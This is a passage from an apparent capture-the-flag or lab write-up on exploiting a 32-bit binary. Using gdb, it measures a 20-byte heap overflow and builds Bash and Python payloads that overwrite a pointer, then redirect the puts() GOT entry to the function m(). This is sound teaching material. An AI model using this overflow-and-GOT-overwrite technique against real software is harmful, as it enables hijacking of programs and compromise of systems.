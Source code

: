 Interpretation:

* `a[0] = 1` → unused
* `a[1] = 0x0804a018` → buffer for `argv[1]`
* `b[0] = 0`
* `b[1] = 0x0804a038` → buffer for `argv[2]` (will be overwritten)

We now **confirm visually** that `b[1]` lives at `0x0804a02c`:

```gdb
(gdb) x/xw 0x0804a028 + 4
0x804a02c: 0x0804a038 ← b[1]
```

#### Step 4.3 – Compute the overflow offset

The overflow starts from the buffer at `a[1] = 0x0804a018`, and reaches `b[1] = 0x0804a02c`.

```gdb
(gdb) print 0x0804a02c - 0x0804a018
$2 = 20
```

**Overflow offset = 20 bytes.**

This confirms that a 20-byte input into `a[1]` is required to reach and overwrite the pointer `b[1]`, which will later be dereferenced by the second `strcpy()`, giving us a write-what-where primitive.

---

### Step 5: Exploit the Overwrite with Controlled Pointers

We now construct the payload:

* `argv[1]`: 20 bytes padding + address of `puts()` GOT entry
* `argv[2]`: address of `m()`

In Bash:

```bash
export A=$(python -c 'print("A" * 20 + "\x28\x99\x04\x08")')
export B=$(python -c 'print("\xf4\x84\x04\x08")')
```

To validate this in GDB, set a breakpoint just before the final `puts()` call:

```gdb
(gdb) break *0x080485f7
(gdb) run "$A" "$B"
```

Then confirm that the GOT entry has been overwritten:

```gdb
(gdb) x/wx 0x08049928
0x8049928 <puts@got.plt>:       0x080484f4
```

The GOT entry for `puts()` now points to `m()`.

---